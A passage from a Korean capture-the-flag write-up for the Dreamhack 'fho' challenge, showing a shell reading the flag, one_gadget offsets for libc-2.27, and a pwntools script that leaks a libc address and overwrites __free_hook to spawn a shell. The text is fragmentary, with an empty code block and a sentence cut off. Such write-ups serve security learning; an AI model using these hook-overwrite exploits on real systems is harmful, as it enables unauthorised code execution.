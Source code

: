 ```python
```

이제 이 페이로드를 서버로 보내어 쉘 권한을 얻으면 된다.

```python
$ ls
fho
flag
run.sh
$ cat flag
DH{584ea800b3d6ff90857aa4300ba42218}
```

쉘을 얻었으므로 ls로 flag가 있는 것을 확인하고 flag 값을 

# one_gadget을 이용해 execve(”/bin/sh”)를 실행시키는 풀이

라이브러리를 알기 때문에 one_gadget을 이용해 execve(”/bin/sh”)가 담겨 있는 오프셋을 사용할 수 있다. 

```python
┌──(root💀kali)-[~/바탕화면/fho(1)]
└─# one_gadget libc-2.27.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

세 가지 주소가 나오는데 이 각 주소는 실행되려면 제약조건이 존재한다. 실행될 때 제약조건에 맞는 오프셋을 사용해야 된다.

```python
#!/usr/bin/python3
from pwn import *

#context.log_level = 'debug'

host="host3.dreamhack.games"
port=11211
p=remote(host,port)

e=ELF('./fho') # 파일 불러오기
libc = ELF('./libc-2.27.so') # 라이브러리 불러오기

payload =b'A'*0x48
p.sendafter("Buf: ", payload)
p.recvuntil(payload)
libc_start_main_ret = u64(p.recvline()[:-1]+b'\x00'*2)
print(hex(libc_start_main_ret))
libc_base = libc_start_main_ret - 0x21bf7

system = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
one_gadget = libc_base + 0x4f432

p.recvuntil("To write: ")
p.sendline(str(free_hook))
p.recvuntil("With: ")
p.sendline(str(one_gadget))
```